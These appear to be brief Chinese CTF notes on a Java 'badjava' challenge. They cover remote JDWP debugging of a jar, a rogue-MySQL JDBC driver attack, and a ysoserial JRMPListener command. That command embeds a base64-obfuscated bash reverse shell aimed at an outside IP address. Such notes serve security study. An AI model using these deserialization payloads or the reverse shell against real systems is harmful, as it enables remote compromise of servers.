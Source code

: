 - 有 pom.xml 文件，复制内容到 idea. maven 更新，会有些 vuln 提示
- [jdbcDriver](#jdbcdriver) : rogue_mysql_server 

# Java jar 文件调试

```sh
java -jar -Xdebug -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5005 <jarfile>
```

解压出 jar 文件。classes 下的内容放到 src 下面。在 idea 中看 比如 `com\ctf\badjava\BadjavaApplication.class` 放到 `src\com\ctf\badjava\BadjavaApplication.class`

- idea 中打开会显示源码，保存一份复制为 BadjavaApplication.java
- 去掉前几行的注释

`Edit Configuration - remote`, 默认参数即可。

- 下断点可正常调试了


# jdbcDriver
```sh
curl 192.168.142.1:8080/app3/testConnection/ -d 'Driver=com.tinysoft.jdbc.bridge.client.ClientDriver&url=jdbc:tsserver://127.0.0.1:3306/test'
# jdbc:tsserver 地址是是从服务器端发起的请求地址.
```

# ysoserial

```sh
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "bash -c {echo,YmFzaCAtaSA+JAAvZGVDL3RjcC8xMjEuNDAuMjUzLjE3Ny8zODg4OCAwPiYx}|{base64,-d}|{bash,-i}"
```
# Article

[javasec](https://www.javasec.org/javaweb/JSON/FEATURE.html)

